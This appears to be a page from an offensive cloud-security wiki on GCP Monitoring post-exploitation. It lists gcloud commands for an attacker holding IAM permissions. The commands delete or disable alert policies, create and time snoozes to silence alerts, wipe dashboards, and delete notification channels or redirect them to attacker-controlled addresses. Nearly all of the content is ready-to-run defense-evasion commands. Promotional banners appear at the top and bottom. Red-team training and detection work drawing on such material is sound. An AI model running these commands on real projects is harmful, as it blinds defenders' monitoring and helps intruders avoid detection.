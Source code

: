 # GCP - Monitoring Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Monitoring

Fore more information check:

{% content-ref url="../gcp-services/gcp-monitoring-enum.md" %}
[gcp-monitoring-enum.md](../gcp-services/gcp-monitoring-enum.md)
{% endcontent-ref %}

For other ways to disrupt logs check:

{% content-ref url="gcp-logging-post-exploitation.md" %}
[gcp-logging-post-exploitation.md](gcp-logging-post-exploitation.md)
{% endcontent-ref %}

### `monitoring.alertPolicies.delete`

Delete an alert policy:

```bash
gcloud alpha monitoring policies delete <policy>
```

### `monitoring.alertPolicies.update`

Disrupt an alert policy:

```bash
# Disable policy
gcloud alpha monitoring policies update <alert-policy> --no-enabled

# Remove all notification channels
gcloud alpha monitoring policies update <alert-policy> --clear-notification-channels

# Chnage notification channels
gcloud alpha monitoring policies update <alert-policy> --set-notification-channels=ATTACKER_CONTROLLED_CHANNEL

# Modify alert conditions
gcloud alpha monitoring policies update <alert-policy> --policy="{ 'displayName': 'New Policy Name', 'conditions': [ ... ], 'combiner': 'AND', ... }"
# or use --policy-from-file <policy-file>
```

### `monitoring.dashboards.update`

Modify a dashboard to disrupt it:

```bash
# Disrupt dashboard
gcloud monitoring dashboards update <dashboard> --config='''
  displayName: New Dashboard with New Display Name
  etag: 40d1040034db4e5a9dee931ec1b12c0d
  gridLayout:
    widgets:
    - text:
        content: Hello World
  '''
```

### `monitoring.dashboards.delete`

Delete a dashboard:

```bash
# Delete dashboard
gcloud monitoring dashboards delete <dashboard>
```

### `monitoring.snoozes.create`

Prevent policies from generating alerts by creating a snoozer:

{% code overflow="wrap" %}
```bash
# Stop alerts by creating a snoozer
gcloud monitoring snoozes create --display-name="Maintenance Week" \
    --criteria-policies="projects/my-project/alertPolicies/12345,projects/my-project/alertPolicies/23451" \
    --start-time="2023-03-01T03:00:00.0-0500" \
    --end-time="2023-03-07T23:59:59.5-0500"
```
{% endcode %}

### `monitoring.snoozes.update`

Update the timing of a snoozer to prevent alerts from being created when the attacker is interested:

{% code overflow="wrap" %}
```bash
# Modify the timing of a snooze
gcloud monitoring snoozes update <snooze> --start-time=START_TIME --end-time=END_TIME

# odify everything, including affected policies
gcloud monitoring snoozes update <snooze> --snooze-from-file=<file>
```
{% endcode %}

### `monitoring.notificationChannels.delete`

Delete a configured channel:

```bash
# Delete channel
gcloud alpha monitoring channels delete <channel>
```

### `monitoring.notificationChannels.update`

Update labels of a channel to disrupt it:

{% code overflow="wrap" %}
```bash
# Delete or update labels, for example email channels have the email indicated here
gcloud alpha monitoring channels update CHANNEL_ID --clear-channel-labels
gcloud alpha monitoring channels update CHANNEL_ID --update-channel-labels=email_address=attacker@example.com
```
{% endcode %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
